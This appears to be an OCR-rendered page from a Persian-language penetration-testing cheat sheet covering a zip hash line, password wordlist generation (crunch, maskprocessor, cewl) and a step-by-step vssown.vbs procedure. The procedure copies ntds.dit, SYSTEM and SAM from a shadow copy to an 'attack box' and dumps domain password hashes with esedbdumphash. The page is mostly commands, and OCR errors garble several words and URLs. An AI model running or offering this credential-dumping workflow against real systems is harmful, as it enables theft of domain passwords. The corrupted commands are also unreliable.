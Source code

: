 ```text
$zip$'0'1'8005b1b"d07""08d'dee4
username:$zip$'0'1'8005b1b-d0"-"08d'dee4
```

## لیست کلمه عبور

### ایجاد کلمات مختلف بر مبنای یک کلمه

```text
#Add lower(@), upper(,), ~umber(%), and symbol(^) I to the end of the word
crunch 12 12 -t baseword@,%^ wordlist.txt

Use custom special character set and add 2 numbers then special character
maskprocessor -custom-charset1=\!\@\#\$ baseword?d?d?l wordlist.txt

generate wordlist from website with number 
cewl -d 5 -m 3 -w wordlist http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers
```

## دستور Vsown

```text
1. Download: http://ptscripts.googlecode.com/svn/trunk/windows/vssown.vbs
2. Create a new Shadow Copj
    a. cscript vssown.vbs /start (optional)
    b. cscript vssown.vbs /create
3. Pull the following files frorr. a shadow copj:
    a. Copy
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
    ntds\ntds.dit .
b. copj
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
    System32\config\SYSTEM .
    C. COpj
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
    system32\config\SAM .
4. Copj files to attack box.
5. Download tools: http://www.ntdsx~ract.com/downloads/ntds dump_hash.zip
6. Configure and Make source code for libesedb from the extracted package
    a. cd libesedb
    b. chmod +x configure
    c. ./configure && make
Use esedbdumphash to ex~ract the datatable from ntds.dit.
    a. cd esedbtools
    b. . I esedbdumphash ../../ntds.dit
```

## هش File  

### طول هش
